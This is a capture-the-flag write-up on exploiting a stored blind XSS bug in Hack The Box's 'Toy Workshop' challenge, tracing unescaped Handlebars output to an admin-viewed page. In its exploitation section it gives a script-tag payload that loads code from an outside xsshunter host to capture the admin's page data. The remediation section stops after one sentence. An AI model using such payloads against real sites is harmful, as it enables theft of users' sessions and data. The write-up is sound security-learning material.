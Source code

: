 ### Hackthebox Cyber Santa is Coming to Town: Blind XSS

Quick writeup on the "Toy Workshop" room from the Cyber Santa is Coming to Town CTF on hackthebox.com. In order to play with this room after the CTF is over, you will have to pay for a premium subscription

This room is a great introduction to XSS(cross-site scripting) and how to exploit it. If you aren't sure what XSS is or how it works, [check out this article from OWASP](https://owasp.org/www-community/attacks/xss/)

**TL;DR**

XSS is a vulnerability where an attacker is able to inject malicious code into a site that would otherwise be trusted. This usually comes in the form of untrusted user input being displayed to other users on the site without proper validation, allowing an attacker to run arbitrary code in another users browser.

## Exploration
Started up my docker container from the hackthebox website and opened up the website at http://138.68.174.27:32309. Also downloaded the zip archive included with the challenge, which contains the source code for the website along with a dockerfile for easily launching the app on your own machine. At first glance, there isn't much going on, just some cool canvas animations. The only interesting thing about the site from an attackers perspective is a form that opens up when you click on one of the elves heads.

![image](https://user-images.githubusercontent.com/9093725/144787692-abe082b5-8f1a-460a-ac2c-9d9d4721f5aa.png)

Tried sending a message to the manager to see what the HTTP request and response looks like.

![image](https://user-images.githubusercontent.com/9093725/144788487-f8628beb-dafa-4163-99a5-e714d749ef97.png)

The request is a POST to /api/submit with the body containing a json object with one property, query

`{ "query": "hey what's up?" }`

The response body also contains a json object with a message property

`{ "message": "Your message is delivered successfully!" }`

The response also contains an ETag header, which I was not familiar with, so I decided to investigate just in case it was a posisble attack vector. The ETag header contains a token that the client can use to tell the web server it has some static files cached so they do not need to be sent by the web server on subsequent requests. Seemed unlikely it could be exploited in a meaningful way, but good to know information in case I run into it in the future.

Seemed likely the vulnerability was going to be an blind SQL injection or a blind XSS attack
1. The web page didn't have anything on it other than a form submission
2. There wasn't any navigation to other pages
3. The form submission displays the same message no matter what you send

Since the challenge provided me with source code for the web app, I decided to go take a look at it before doing any further testing on the website. First thing I did was checkout the `database.js` file in the root folder to see if there were database queries with unsanitised input.

![image](https://user-images.githubusercontent.com/9093725/144790954-4b68715d-a261-43fc-8f75-c4cd3ef90add.png)

There were 2 methods for accessing the database, and both of them used prepared statements, which rules out trivial SQL injection. Prepared statements make sure an untrusted value that is added to a query cannot escape the current query and add a malicious query.

Next, I went to take a look in the static, routes, and views folders to see if there were any pages of interest outside of the main page where an XSS payload might be served. In views there were 2 files, `index.hbs` and `queries.hbs`. The .hbs file extension is a handlebars template, which is an HTML templating library for building dynamic HTML pages. The double/triple curly brackets indicate where dynamic content is going to be inserted. The `{{#each queries}}` is going to iterate over `queries` and inject each query into a paragraph tag `<p>{{{this.query}}}</p>`.

![image](https://user-images.githubusercontent.com/9093725/144796350-6c90a3ba-1600-4e48-8584-5f91687a3210.png)

Then I went to look at `index.js` in the routes folder, and there was another route besides / and /api/submit.

![image](https://user-images.githubusercontent.com/9093725/144796761-75a64cbb-7557-4b8b-b87b-48da9fc04074.png)

The route is only accessible from 127.0.0.1(localhost), so I was not be able to access it from my browser. When /queries is accessed from localhost, it shows the rendered `queries.hbs` file, which is just a simple page listing of all the queries that have been sent from that user form. Looking at the /api/submit and /queries routes, it is clear there is no user input sanitisaion. Any HTML the user includes in their query will be stored in the database, and then rendered to the /queries page when it gets opened by the admin.

## Exploitation
Since there was no way for me to access the /queries page on my web browser, the injection will have to be blind. Of course, since I had the source code, I already had a good idea of what kind of payload would work, and I could also spin up a container of my own to test the injection. 

I decided to start with the super cool tool https://xsshunter.com. Once you create an account, you can create a custom subdomain on their `xss.ht` domain that can be used in an XSS payload to do most of the hard work. It even has a section with a bunch of suggested payloads all ready to go. Since no tags even need to be escaped, a script tag and with the src paramater set to my xss.ht subdomain should do the trick

```
<script src=https://izyisaac.xss.ht></script>
```

Popped that in the form, clicked send, waited a minute, and viola, the payload executed and I had a report of what was found on xxshunter, which included the flag, completing this challenge

![image](https://user-images.githubusercontent.com/9093725/144800514-768e1cd0-8111-48bb-8934-c19b1d4956ea.png)

## Remediation
XSS vulnerabilities are constantly being found in web applications, even these days.

